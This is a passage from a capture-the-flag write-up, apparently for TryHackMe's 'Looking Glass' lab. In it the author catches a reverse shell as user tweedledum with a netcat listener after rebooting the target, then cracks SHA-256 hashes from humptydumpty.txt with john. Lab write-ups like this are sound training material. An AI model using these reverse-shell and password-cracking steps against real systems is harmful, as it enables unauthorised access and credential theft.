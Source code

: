 <p class="message">
💡 The line starts with <strong>wall</strong> is the original script.

</p>

I start a listener on my local machine. Then I reboot the system and wait for a while:

```
jabberwock@looking-glass:~$ sudo /sbin/reboot
Connection to 10.10.180.167 closed by remote host.
Connection to 10.10.180.167 closed.
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.180.167] 59302
/bin/sh: 0: can't access tty; job control turned off
$ whoami
tweedledum
$ id
uid=1002(tweedledum) gid=1002(tweedledum) groups=1002(tweedledum)
```

### Third user

I list the current directory:

```
$ ls -l
total 8
-rw-r--r-- 1 root root 520 Jul  3  2020 humptydumpty.txt
-rw-r--r-- 1 root root 296 Jul  3  2020 poem.txt
```

The `poem.txt` is just an useless note file, just like the previous one found in the **jabberwock**’s directory. But the `humptydumpty.txt` contains the hashes:

```
$ cat humptydumpty.txt
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b
```

Then I use `john` to crack the hash:

```
┌──(kali㉿kali)-[~/TryHackMe/LookingGlass]
└─$ john --show humptydumpty.txt --format=RAW-SHA256
?:maybe
?:one
?:these
?:the
?:password

5 password hashes cracked, 3 left
```
